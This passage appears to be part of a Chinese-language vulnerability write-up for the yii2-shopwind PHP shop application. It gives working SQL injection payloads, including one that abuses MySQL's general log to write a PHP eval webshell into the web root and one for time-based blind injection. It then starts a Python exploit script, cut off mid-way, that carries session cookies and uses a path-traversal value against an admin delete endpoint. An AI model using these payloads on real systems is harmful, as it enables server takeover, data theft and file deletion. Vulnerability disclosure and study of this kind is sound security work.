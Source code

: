 Webshell+已成功编写，未出现错误

![image](https://user-images.githubusercontent.com/54017627/168497148-8261b78b-7b37-4cc4-b143-0c56a4c53e98.png)

## 5.3 获取带有日志的webshell

条件是

1.根权限
2.网站的绝对路径，并具有写入权限。您可以使用outfile和 into dumpfile写入
3.支持堆栈查询

poc:
```sql
swd_address`;set global general_log = on;set global general_log_file = 'D:/phpstudy_pro/WWW/local.rapoo.top/yii2-shopwind-h5/frontend/web/log.php';select '<?php  @eval($_POST[1]);?>';#
```

发送数据包

![image](https://user-images.githubusercontent.com/54017627/168497241-c2f6002a-0a22-4c9b-95e5-781a81e74056.png)

![image](https://user-images.githubusercontent.com/54017627/168497249-e92fd56a-3f3f-4a7a-9cc1-8de9f9135a09.png)

getshell成功

![image](https://user-images.githubusercontent.com/54017627/168497259-83b71fe6-9c88-4137-a33e-412ca895a3fe.png)

## 5.4 盲注

poc:
```sql
swd_user`;select if(length(user())>0,sleep(2),1);#
```
![image](https://user-images.githubusercontent.com/54017627/168497275-a087c683-bc4f-4798-8135-13ed872cd291.png)

![image](https://user-images.githubusercontent.com/54017627/168497279-ee2db0bb-b728-4f50-b1b1-8af7ba446eb2.png)

python脚本：
```python
#!encoding:utf-8

import requests
import time


headers = {
	"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
	"Cookie": "switchHistory=website%2Fdb; UM_distinctid=1803c2602eb210-05a24410a265d9-1734337f-1fa400-1803c2602ec659; bjui_theme=purple; XDEBUG_SESSION=PHPSTORM; CNZZDATA1618465=cnzz_eid%3D555001816-1650273840-%26ntime%3D1650346840; advanced-backend=p78poo8n9hl27mks17hf2vlgll; _csrf-backend=ad56049615f6ba364b544685b88bf7aef7baeca4c875a1af3133961cccb509bfa%3A2%3A%7Bi%3A0%3Bs%3A13%3A%22_csrf-backend%22%3Bi%3A1%3Bs%3A32%3A%22y-o088Wj2bIB0WpJf8fRaiplRoDM9rDq%22%3B%7D; goodsBrowseHistory=c28cb2b6cbbb56efe1b54af4962a1184b1ff4c069830e85977639ad55216dd9ba%3A2%3A%7Bi%3A0%3Bs%3A18%3A%22goodsBrowseHistory%22%3Bi%3A1%3Bs%3A2%3A%2226%22%3B%7D; advanced-frontend=bhikf56hlq22mu402s14in6d6e; _csrf-frontend=ec2187396433327b12bd8538772fae89ba08815dcf64c739e37d57d5d43e1c8fa%3A2%3A%7Bi%3A0%3Bs%3A14%3A%22_csrf-frontend%22%3Bi%3A1%3Bs%3A32%3A%22As8fd2CCmnh4ExTtegRpqbV4C9r-f4oO%22%3B%7D"
}

def delete(url):
	url_delete = "{}/admin/db/delete.html?backup_name=20220425_1".format(url)
	url_delete_backup = "{}/admin/db/delete.html?backup_name=../backup.lock".format(url)
	try:
		r = requests.get(url=url_delete,headers=headers)
	except Exception as e:
```